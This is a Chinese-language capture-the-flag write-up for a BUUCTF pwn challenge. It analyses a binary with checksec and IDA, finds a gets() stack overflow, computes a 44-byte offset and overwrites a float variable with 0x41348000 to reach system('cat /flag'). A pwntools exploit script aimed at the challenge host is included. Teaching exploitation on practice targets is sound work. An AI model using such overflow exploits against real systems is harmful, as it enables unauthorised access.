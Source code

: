 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744029221909-10603b57-6301-475b-9038-1794daa1310c.png)

# 做法

开虚拟机，扔进去checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744029282875-1f3c902a-1007-41f0-a683-abde0934ce44.png)

64位，还是没有开栈保护

扔进IDA（64位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744029363422-c77b602d-2b00-47ee-83a4-decc145fd1ff.png)

都点一下，感觉没啥东西

然后我们点到func的时候

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744029451112-2a3cec23-30c0-4394-a056-aaf2255cd4a4.png)

我们看到了熟悉的gets函数还有system("cat /flag")

这里，我们对这个程序进行栈溢出，在v1到v2间塞入字节数据，然后让v2=11.28125，我们就可以得到flag

我们点进gets函数括号中的v1，v1对应的是var_30，v2对应var_4

完整代码如下

```
-0000000000000030 ; D/A/*   : change type (data/ascii/array)
-0000000000000030 ; N       : rename
-0000000000000030 ; U       : undefine
-0000000000000030 ; Use data definition commands to create local variables and function arguments.
-0000000000000030 ; Two special fields " r" and " s" represent return address and saved registers.
-0000000000000030 ; Frame size: 30; Saved regs: 8; Purge: 0
-0000000000000030 ;
-0000000000000030
-0000000000000030 var_30          db ?
-000000000000002F                 db ? ; undefined
-000000000000002E                 db ? ; undefined
-000000000000002D                 db ? ; undefined
-000000000000002C                 db ? ; undefined
-000000000000002B                 db ? ; undefined
-000000000000002A                 db ? ; undefined
-0000000000000029                 db ? ; undefined
-0000000000000028                 db ? ; undefined
-0000000000000027                 db ? ; undefined
-0000000000000026                 db ? ; undefined
-0000000000000025                 db ? ; undefined
-0000000000000024                 db ? ; undefined
-0000000000000023                 db ? ; undefined
-0000000000000022                 db ? ; undefined
-0000000000000021                 db ? ; undefined
-0000000000000020                 db ? ; undefined
-000000000000001F                 db ? ; undefined
-000000000000001E                 db ? ; undefined
-000000000000001D                 db ? ; undefined
-000000000000001C                 db ? ; undefined
-000000000000001B                 db ? ; undefined
-000000000000001A                 db ? ; undefined
-0000000000000019                 db ? ; undefined
-0000000000000018                 db ? ; undefined
-0000000000000017                 db ? ; undefined
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

v1到v2的大小为3*16-4=44，这就是我们要输入的字节数据大小

（补充：db是1个字节，dd是4个字节，dq是8个字节）

然后我们找一个可以把浮点数换成16进制数的网址（要统一进制）

这里给出一个网址（是否有病毒等风险自辨，资源来自互联网）

[http://www.speedfly.cn/tools/hexconvert/](http://www.speedfly.cn/tools/hexconvert/)

我们把11.28125换成16进制数，即是41348000（注意去掉数字间的空格）![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744030953227-9276f0c1-5829-484b-bf9c-b1b74b64a2d3.png)

我们编写exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744031677370-e6a22b58-08fc-46f8-af24-bef92aaa0a88.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",26405)

#定义 payload
payload = b'a' * 44+ p64(0x41348000)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

然后常规，得出flag

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744031664923-d2c3894c-f994-4ce7-9264-134b4ed3ac92.png)

# 更新

于2025.4.7